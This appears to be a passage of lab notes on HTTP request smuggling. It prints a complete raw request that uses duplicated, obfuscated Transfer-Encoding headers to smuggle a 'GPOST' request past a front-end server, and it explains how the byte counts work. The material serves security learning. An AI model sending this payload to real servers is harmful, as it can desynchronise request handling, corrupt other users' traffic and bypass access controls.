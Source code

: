 >Some servers that do support the `Transfer-Encoding` header can be induced not to process it if the header is **obfuscation** in some way.  

>On Repeater menu ensure that the **"Update Content-Length"** option is unchecked.  

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: identity
\r\n
5c\r\n
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
\r\n
x=1\r\n
0\r\n  
\r\n
```  
Body of GPOST request is 10 bytes but Content-Length is 15 ==> 5 Bytes of next request will be included in the Body. If the next request is `POST / HTTP/1.1`, then the word `POST` (5B) will be sent in the body of the smuggled GPOST request:

![dk](images/dualchunk.png)  
